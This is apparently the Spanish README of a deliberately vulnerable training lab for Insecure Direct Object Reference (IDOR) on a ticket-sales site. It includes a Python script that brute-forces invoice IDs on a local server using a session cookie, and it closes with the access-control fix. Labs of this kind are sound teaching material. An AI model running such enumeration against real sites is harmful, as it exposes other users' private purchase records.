




## 🚨 Insecure Direct Object Reference (IDOR-Lab)
- Aplicación vulnerable a **referencia de objeto directo inseguro** (en español). Se trata de una vulnerabilidad en la que un atacante puede aprovecharse de una referencia a un identificador para ver información privilegiada de otros usuarios que no debería poder ver.
- Esto es muy común en páginas donde el identificador de alguna entidad hace referencia al ID de ese objeto en la base de datos correspondiente. De esta forma, si ese acceso a la base de datos no es correctamente protegido, puede llegar a darse este fallo de seguridad. 
- Este laboratorio simula una página en la que el usuario puede comprar entradas a diferentes eventos de ocio. Sin embargo, tras realizar una compra se genera un código QR, el cual esconde información incorrectamente protegida.

Ejemplo de código QR generado:


Con herramientas como **zbarimg**, podemos ver el contenido que hay en el QR:



Si visitamos esa URL, vemos los detalles de la compra:



Pero si a un usuario malintencionado le da por hacer un ataque de fuerza bruta, es decir, sustituyendo el ID de su factura por otros IDs, puede llegar a descubrir facturas de otros usuarios. Con este script en python podemos desplegar este ataque:

```python
import requests, signal, sys
from termcolor import colored

#CTRL+C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo ...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://127.0.0.1:5012/"
session = "" # Sustituir con la cookie asignada tras el login de usuario
cookies = {
    'session' : session
}

def extraer_facturas():
    print()
    for i in range(1, 200):
        r = requests.get(url + "ver_factura/" + str(i), cookies=cookies)
        if not "Factura no encontrada" in r.text:
            print(colored(f"[+] Factura encontrada: {i}\n",'green'))

    
if __name__ == '__main__':
    extraer_facturas()
```

El resultado es este:



Si visitamos manualmente uno de ellos, podemos comprobar que se trata de una compra de otro usuario:



Es importante destacar que esto ha sido posible ya que no existe ningún control de acceso en la base de datos. Una correcta implementación de esto sería comprobar si la factura en cuestión pertenece o no al usuario que hace la petición.


